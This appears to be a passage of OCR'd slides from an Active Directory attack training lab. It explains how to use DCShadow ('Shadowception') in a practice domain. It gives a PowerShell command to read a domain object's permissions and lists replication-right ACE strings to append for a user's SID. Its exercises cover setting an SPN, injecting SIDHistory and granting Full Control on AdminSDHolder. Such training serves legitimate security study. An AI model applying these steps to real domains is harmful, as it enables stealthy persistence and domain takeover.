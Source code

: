 #### We can even run DCShadow from DCShadow which I have named Shadowception:
```powershell
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=moneycorp,DC=local")).psbase.ObjectSecurity.sddl
```

#### We need to append following ACEs with our user's SID at the end: 

• On the domain object: 
```
(OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)
(OA;;CR;9923a32a-3607-11d2-b9be-0000f87a36b2;;UserSID) 
(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;UserSID) 
```

• On the attacker computer object: `(A;;WP;;;UserSID)`
• On the target user object: `(A;;WP;;;UserSID)`
• On the Sites object in Configuration container: `(A;CI;CCDC;;;UserSID)`

# Shadowception

• If we maintain access to the computer for which we modified the permissions with the user whose SID we added, we can modify the attributes of the specific user whose permissions we modified. 

• Let's see how we can modify properties of root13user from mcorpstudent13 machine as student13 using DCShadow.

# Learning Objective 23

• Use DCShadow to set a SPN for rootxuser. 

• Using DCShadow, set rootxuser's SIDHistory without using DA. 

• Modify the permissions of AdminSDHolder container using DCShadow and add Full Control permission for studentx.